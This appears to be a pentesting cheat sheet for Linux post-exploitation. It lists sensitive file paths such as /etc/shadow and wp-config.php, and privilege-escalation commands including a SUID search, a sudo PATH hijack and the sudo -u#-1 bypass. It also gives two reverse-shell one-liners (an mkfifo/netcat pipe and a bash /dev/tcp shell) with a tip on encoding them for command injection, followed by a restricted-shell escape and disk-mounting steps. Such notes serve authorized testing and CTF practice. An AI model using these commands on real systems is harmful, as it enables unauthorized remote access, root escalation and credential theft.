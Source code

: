 # Linux

## Important files (Default Location)

```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
/var/log/cron.log
```

### PrivEsc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
-----------------
(root) SETENV: NOPASSWD: /opt/cleanup.sh
# have the ability to set environment, therefore create a bash binary in the pwd and:
sudo PATH=$PWD:$PATH /opt/cleanup.sh
-----------------
find / -perm -4000 2>/dev/null    # file with suid
find / -type f -writable 2>/dev/null
sudo -u#-1 /bin/bash
```

### Reverse Shell

```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)

```
/proc/cpuinfo
```

### PATH & Restricted Shell

```
export PATH=/tmp:$PATH
ssh alfred@10.11.1.101 -t "bash --noprofile"
```

### Docker

```shell
docker images
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
---------------Mount SDA1----------------
fdisk -l
mkdir -p /mnt/tmpp
mount /dev/sda1 /mnt/tmpp
```

### Network & Firewall rules

```
iptables -L
cat /etc/sysconfig/iptables
cat /etc/resolv.conf
```
